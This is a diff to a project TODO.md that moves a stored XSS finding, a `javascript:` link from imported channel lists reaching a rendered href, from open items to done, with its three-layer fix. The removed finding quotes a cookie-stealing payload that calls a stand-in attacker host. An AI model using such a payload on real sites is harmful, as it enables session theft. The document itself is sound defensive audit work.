

Before and after one commit to tvalverde/soccertime, a Markdown page: TODO.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs(todo): move the stored XSS finding to done
Co-Authored-By: Claude Opus 5 (1M context) <noreply@anthropic.com>

```diff
--- a/TODO.md
+++ b/TODO.md
@@ -17,22 +17,6 @@ exploited. The two critical findings — both outdated dependencies — were fix
 deployed the same day; see Done.
 
 ### High
-
-- [ ] **A `javascript:` link imported from a channel list reaches the page's `href`
-  unvalidated — stored XSS.** `ChannelLink.link` declares `validators=[validate_channel_link]`
-  and that validator does reject the payload, but **Django only runs field validators from
-  `full_clean()`, which `Model.save()` never calls — and there is not a single `full_clean()`
-  call in the codebase.** The import path uses `ChannelLink.objects.update_or_create(link=...)`,
-  so the validator added for exactly this purpose is dead code outside the admin form.
-  Reproduced end to end: importing `javascript:fetch('https://evil.example/'+document.cookie)`
-  stores it and `link_button.html` renders `href="javascript:..."`; a `data:text/html;base64,…`
-  URI gets through the same way. Escaping does not help — the payload is the URL, not
-  markup. It fires on click, and `target="_blank"` is only applied to `http` schemes, so it
-  runs in the page's own origin. The input is third-party: `newera.txt`, `elcano.txt` and
-  `.m3u` files come from outside. Fix: enforce the scheme where the data enters
-  (`import_entries`), not only in the admin — either by calling `full_clean()` or by
-  filtering before the upsert — and add a template-side guard so a row already in the
-  database cannot render a dangerous scheme. Existing rows need auditing. *(verified)*
 
 - [ ] **`.env.production` — which holds `DJANGO_SECRET_KEY` — is baked into the Docker
   image.** `.dockerignore` lists `.env`, and that pattern matches only that exact
@@ -128,6 +112,16 @@ the git history. Kept here as an index of what has been through this file.
   Deleted `channel_matchers.py`, 320 dead lines Django was advertising as a command.
 - **Scraper reporting** (0.3.0, 2026-08-10) — events whose time is not yet announced are
   counted and named instead of being silently folded into `skipped`.
+- **Stored XSS through channel link schemes** (2026-08-11) — `ChannelLink.link` declared
+  a validator that never ran, because Django only invokes field validators from
+  `full_clean()` and the importer writes through `update_or_create`, so a `javascript:`
+  or `data:` URI from a third-party channel list reached the rendered `href` and ran in
+  the site's own origin on click. Fixed in three layers: `save()` vets the link field,
+  the importer reports and steps over a rejected entry instead of abandoning the run, and
+  the template renders no anchor for a disallowed scheme, which is what covers a row
+  inserted by `bulk_create`, a migration or a fixture. Production was audited first (381
+  links, all `acestream`, none dangerous) and the button counts on `/channels/` and
+  `/agenda/` are unchanged after the deploy.
 - **Security audit, critical findings** (2026-08-11) — Pillow 12.1.0 was in range for two
   CVEs that can reach arbitrary code execution through a crafted PSD, and this project
   hands Pillow bytes fetched from scraped URLs, where the extension is no protection
```
